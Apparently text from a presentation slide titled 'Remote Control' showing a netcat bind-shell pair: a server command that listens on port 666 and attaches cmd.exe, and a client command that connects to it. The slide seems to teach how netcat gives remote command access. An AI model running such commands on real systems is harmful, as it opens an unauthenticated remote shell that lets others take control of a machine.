

Remote Control (Open File on GitHub)
Server:
nc –Lp 666 –vv –e cmd.exe
Client:
nc 192.0.0.1 666